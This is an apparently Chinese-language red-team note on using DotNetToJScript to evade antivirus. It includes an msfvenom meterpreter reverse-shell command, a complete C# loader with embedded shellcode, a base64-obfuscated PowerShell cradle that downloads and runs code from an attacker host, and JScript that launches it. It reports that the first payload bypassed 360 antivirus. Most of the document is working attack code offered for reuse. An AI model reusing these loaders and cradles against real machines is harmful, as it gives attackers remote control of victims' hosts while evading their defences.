

# DotNetToJscript

DotNetToJscript是老外写的一个工具，主要的功能是把C#的程序转换成Jscript脚本执行，核心原理是把C#程序进行Base64编码后放置在Jscript脚本中，由Jscript在内存中还原程序并加载运行。转换后的Jscript脚本可以和Scriptlet脚本结合在其他的攻击方法中利用，也可以用C#打包部分powershell功能，在不使用powershell进程的情况下，使用powershell功能。

## 防御逃避

### 技术复现（后门程序转JS）

1. 利用msfvenom输出C# shellcode

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.58.134 LPORT=9999 -f csharp
   ```

2. 创建一个C#加载shellcode的后门dll

   ```
   using System;
   using System.Collections.Generic;
   using System.Linq;
   using System.Text;
   using System.Threading.Tasks;
   using System.Runtime.InteropServices;
   
   /*
   Author: Casey Smith, Twitter: @subTee
   License: BSD 3-Clause
   */
   
   namespace ShellCodeLauncher
   {
       public class Program
       {
           public Program()
           {
               Main();
           }
   
           static void Main()
           {
   
               byte[] shellcode = new byte[341] {
   0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
   0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
   0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
   0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
   0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
   0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
   0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
   0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
   0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
   0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
   0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,
   0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x3a,0x85,
   0x68,0x02,0x00,0x27,0x0f,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,
   0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,
   0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,
   0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,
   0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,
   0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,
   0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,
   0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
   0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,
   0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,
   0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
   
               UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                                   MEM_COMMIT, PAGE_EXECUTE_READWRITE);
               Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
               IntPtr hThread = IntPtr.Zero;
               UInt32 threadId = 0;
               // prepare data
   
               IntPtr pinfo = IntPtr.Zero;
   
               // execute native code
   
               hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
               WaitForSingleObject(hThread, 0xFFFFFFFF);
               return;
           }
   
           private static UInt32 MEM_COMMIT = 0x1000;
   
           private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
   
           [DllImport("kernel32")]
           private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
                UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
   
   
           [DllImport("kernel32")]
           private static extern IntPtr CreateThread(
   
             UInt32 lpThreadAttributes,
             UInt32 dwStackSize,
             UInt32 lpStartAddress,
             IntPtr param,
             UInt32 dwCreationFlags,
             ref UInt32 lpThreadId
   
             );
   
           [DllImport("kernel32")]
           private static extern UInt32 WaitForSingleObject(
   
             IntPtr hHandle,
             UInt32 dwMilliseconds
             );
       }
   }
   ```

3. 使用DotNetToJscript将DLL转换为Jscript脚本

   ```
   D:\work\tools\DotNetToJScript-master\DotNetToJScript-master\DotNetToJScript\bin\Debug>DotNetToJScript.exe Csharp_payload.dll -c ShellCodeLauncher.Program -o Csharp_payload.js
   ```


### 结果验证

绕过360上线主机





### 技术复现（执行powershell）

1. 利用MSF的web_delivery生成powershell payload

   ```
   powershell.exe -nop -w hidden -c $A=new-object net.webclient;$A.proxy=[Net.WebRequest]::GetSystemWebProxy();$A.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $A.downloadstring('http://192.168.58.135:8888/');
   ```

2. 编写执行powershell的C#程序

   ```
   
   using System.Diagnostics;
   using System.Runtime.InteropServices;
   using System.Management.Automation;
   using System.Management.Automation.Runspaces;
   using System.IO;
   using System;
   using System.Text;
   using System.Collections.ObjectModel;
   
   [ComVisible(true)]
   public class TestClass
   {
   
           private static string baseaa = "JGE9bmV3LW9iamVjdCBuZXQud2ViY2xpZW50OyRhLnByb3h5PVtOZXQuV2ViUmVxdWVzdF06OkdldFN5c3RlbVdlYlByb3h5KCk7JGEuUHJveHkuQ3JlZGVudGlhbHM9W05ldC5DcmVkZW50aWFsQ2FjaGVdOjpEZWZhdWx0Q3JlZGVudGlhbHM7SUVYICRhLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vMTkyLjE2OC41OC4xMzU6ODg4OC8nKTs=";
   
           public void RunScript()
           {
               Runspace MyRunspace = RunspaceFactory.CreateRunspace();
               MyRunspace.Open();
               Pipeline MyPipeline = MyRunspace.CreatePipeline();
               byte[] bytes = Convert.FromBase64String(baseaa);
               string decode = Encoding.GetEncoding("utf-8").GetString(bytes);
               MyPipeline.Commands.AddScript(decode);
               MyPipeline.Commands.Add("Out-String");
               Collection<PSObject> outputs = MyPipeline.Invoke();
               MyRunspace.Close();
               StringBuilder sb = new StringBuilder();
               foreach (PSObject pobject in outputs)
               {
                   sb.AppendLine(pobject.ToString());
               }
               Console.WriteLine(sb.ToString());
           }
       
   
       public void RunProcess(string path)
       {
           Process.Start(path);
       }
   }
   ```

3. 使用DotNetToJscript将DLL转换为Jscript脚本

   ```
   D:\work\tools\DotNetToJScript-master\DotNetToJScript-master\DotNetToJScript\bin\Debug>DotNetToJScript.exe Csharp_powershell.dll -o Csharp_payload.js
   ```

4. 修改jscript脚本来运行RunScript方法

   ```
   try {
   	setversion();
   	var stm = base64ToStream(serialized_obj);
   	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
   	var al = new ActiveXObject('System.Collections.ArrayList');
   	var d = fmt.Deserialize_2(stm);
   	al.Add(undefined);
   	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
   	o.RunScript();//运行RunScript方法
   	
   } catch (e) {
       debug(e.message);
   }
   ```


### 结果验证

依然被360识别出powershell，允许后可上线主机


也没有逃避sysmon的powershell进程监控


## 参考

https://github.com/tyranid/DotNetToJScript

https://github.com/Arno0x/CSharpScripts/blob/master/shellcodeLauncher.cs